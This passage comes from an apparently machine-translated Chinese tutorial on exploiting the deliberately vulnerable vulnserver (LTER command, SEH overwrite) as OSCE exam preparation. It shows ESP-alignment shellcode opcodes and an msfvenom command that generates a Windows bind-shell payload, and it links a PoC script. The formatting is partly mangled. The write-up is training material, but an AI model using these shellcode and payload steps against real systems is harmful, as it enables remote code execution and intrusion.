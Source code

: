 *   更新了第三阶段外壳代码 PoC 脚本:[第三阶段 _lter.py](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/LTER%20-%20SEH%20Overwrite/3rd-stage_lter.py)

## #4 阶段外壳代码—绑定外壳

我们正处于获得绑定外壳的最后一步！在我们将 msfvenom 绑定到 shell 之前，我们再次需要将我们的`ESP`指向“A”的底部。

```
**### ESP Alignment (Bind Shell)**\x54             # PUSH ESP 
\x58             # POP EAX
\x2C\x3D         # ADD AL,0x3D *(0180FFB5 — 0180ff78 = 0x39)*
\x50             # PUSH EAX
\x5C             # POP ESP
```

![](img/7a2e5cad92ace0fd31429b048a551db6.png)

ESP 校准

让我们生成一个`msfvenom`绑定外壳。

```
msfvenom -p windows/shell_bind_tcp LHOST=127.0.0.1 LPORT=443 BUFFERREGISTER=esp EXITFUNC=thread -f c -b "\x00"** BUFFERREGISTER: If we specify this flag, it will directly points our payload to the specified register*
```

![](img/2fea3debcb98887fe3300ff46ed76f34.png)
